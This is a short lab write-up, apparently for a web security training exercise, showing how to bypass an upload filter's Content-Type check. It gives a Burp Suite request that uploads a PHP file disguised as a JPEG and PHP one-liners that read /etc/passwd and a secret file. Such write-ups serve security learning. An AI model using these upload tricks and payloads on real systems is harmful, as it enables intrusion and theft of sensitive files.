 # Web shell upload via Content-Type restriction bypass

## This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

upload an image
and try to upload a php extension file it will not upload
so go to burpsuite
go to image upload url request send to repeater

POST /my-account/avatar HTTP/1.1
delete image data

change file name to test.php
meme.jpg to test.php
and write a php code for retrive passwd file

<?php echo file_get_contents('/etc/passwd'); ?>

------WebKitFormBoundaryWyoaXbBkmlSFjFw0
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd'); ?>

------WebKitFormBoundaryWyoaXbBkmlSFjFw0
Content-Disposition: form-data; name="user

it will succesfully uploaded

### step2

GET /files/avatars/meme.jpg HTTP/1.1
change to test .php
and send request

GET /files/avatars/test.php HTTP/1.1

you will get all passwd file

now do **\_\_\_\_**

### step 1 for secret code

<?php echo file_get_contents('/home/carlos/secret'); ?>

![screenshot](images/lab2_change_file_name_and_php_code.jpg)

and ### step2
send get request for test.php file

![screenshot](images/lab2_get_request_test_php_file.jpg)
